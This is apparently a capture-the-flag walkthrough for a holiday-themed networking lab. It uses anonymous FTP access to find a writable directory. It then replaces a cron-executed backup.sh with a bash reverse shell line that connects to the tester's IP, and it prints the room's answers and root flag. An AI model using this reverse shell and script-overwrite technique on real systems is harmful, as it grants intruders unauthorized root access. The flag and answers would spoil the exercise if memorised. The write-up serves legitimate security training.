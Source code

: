 # Day 9 - Anyone can be Santa! (Networking)

1. Question #1: Name the directory on the FTP server that has data accessible by the "anonymous" user. Run `ftp 10.10.42.118` and enter username `anonymous`. Run `ls` to find `public` has permissions `drwxrwxrwx` and is owned by `65534`.

2. Question #2: What script gets executed within this directory? `cd public` and `ls` to get `backup.sh`.

3. Question #3: What movie did Santa have on his Christmas shopping list? `get shoppinglist.txt` and in a local terminal run `cat shoppinglist.txt` to get `The Polar Express`.

4. Question #4: Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!

    1. Start reverse shell listener with netcat (`nc -lvnp 45913`) or pwncat (`pwncat 0.0.0.0:45913`).

    2. Grab bash reverse shell from [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) and configure it `bash -i >& /dev/tcp/10.9.215.103/45913 0>&1`.

    3. Create a file locally called `backup.sh` and paste in the reverse shell with a shebang of `#!/bin/bash`.

    4. Use ftp to copy the file with `put backup.sh` in the ftp terminal.

    5. Wait a minute for the cronjob to execute and run `cat /root/flag.txt` to get `THM{even_you_can_be_santa}`
